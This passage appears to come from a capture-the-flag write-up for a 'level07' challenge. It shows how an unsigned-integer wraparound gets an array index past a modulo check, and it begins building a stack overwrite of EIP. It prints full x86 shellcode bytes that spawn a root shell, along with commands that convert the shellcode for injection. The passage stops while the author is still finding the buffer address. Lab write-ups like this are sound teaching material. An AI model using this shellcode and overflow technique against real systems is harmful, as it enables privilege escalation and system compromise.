 Let's get the max value for a `unsigned int` in `x86`:
```bash
bc

2^32
4294967296
```

And launch `./resources/getindex.c` to play a little with it:
```bash
gcc getindex.c -o getindex
./getindex 4
```

So, if we need the index `114`, that internally gets multiplied by `4`, we
can just use `4294967296 / 4 + 114`, because the first division result, when
multiplied by `4`, will result in the `max uint`, that's it, `0`, so we
can access the same index but with a different number, that will pass the
`n % 3 == 0` condition:
```bash
bc

4294967296 / 4 + 114
1073741938
```

Test it in the `getindex` binary (`max uint / 4 + 114`):
```bash
./getindex
Index we need: 114
1073741938
Index: 114
```

Cool! The only issue now is that we have a `memset` that is erasing the
environment... So we will need to store our shellcode to the `storage` as
well.

So, take the usual [shellcode](https://shell-storm.org/shellcode/files/shellcode-752.html),
and `4` bytes at a time, convert it to unsigned integers, I made a `C` program
to achieve this in `./resources/sc2uint.c`.
```bash
gcc -m32 sc2uint.c -o sc2uint
./sc2uint $(python -c "print '\x90'*100+'\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
# ...
```

Cool, now let's make a script that converts our shellcode to `unsigned int`s,
executes `./level07`, and automatically stores our shellcode and overwrites
`EIP` with the direction of our shellcode.

The only problem is that we don't know the address of the `storage[100]` buffer,
that's the one will contain our shellcode, let's get it.

We know that the `storage[100]` is on:
```raw
int[100]          Stack[-0x1bc   storage                                 XREF[3]:     08048791(*), 
                                                                                      080488e3(*), 
                                                                                      08048924(*)  
```
